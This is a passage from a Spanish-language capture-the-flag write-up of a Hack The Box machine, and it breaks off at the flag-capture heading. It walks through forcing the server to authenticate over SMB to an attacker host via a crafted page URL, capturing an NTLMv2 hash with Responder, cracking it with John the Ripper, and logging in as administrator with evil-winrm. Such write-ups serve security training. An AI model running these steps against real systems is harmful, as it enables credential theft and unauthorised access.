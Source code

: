 Ahora, volvemos al navegador y cargamos la siguiente URL:

```ruby
http://unika.htb/?page=//10.10.xx.xx/algo
```

Con esta acción, estamos indicando al servidor que intente acceder al recurso “algo” que supuestamente está disponible en un equipo remoto (nuestro equipo con la IP `10.10.xx.xx`) a través del protocolo SMB. Luego, regresamos a nuestro terminal donde está corriendo **Responder** para monitorear cualquier intento de autenticación que el servidor haga hacia nuestra máquina.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Con esto observamos que nos captura el hash. Copiamos el valor del hash NTLMv2 capturado y lo guardamos en un nuevo archivo. Luego, utilizamos el diccionario `rockyou.txt` para intentar descifrar el hash con **John the Ripper**.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt script.hash
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Hemos obtenido la contraseña del usuario Administrador, por lo que ahora vamos a investigar el puerto **5985**. Para más detalles sobre este puerto, podemos consultar la siguiente página: [SpeedGuide - Puerto 5985](https://www.speedguide.net/port.php?port=5985). Pertenece al servicio WinRM por lo que hay que investigar como explotarlo. Para obtener más detalles sobre cómo explotar este servicio, podemos consultar la siguiente página: [Pentesting - WinRM](https://pentesting.mrw0l05zyn.cl/explotacion/servicios/5985-tcp-5986-tcp-winrm).

```bash
evil-winrm -i 10.129.112.41 -u administrator -p badminton
```

### 5. 🔑 **Captura de la Flag**
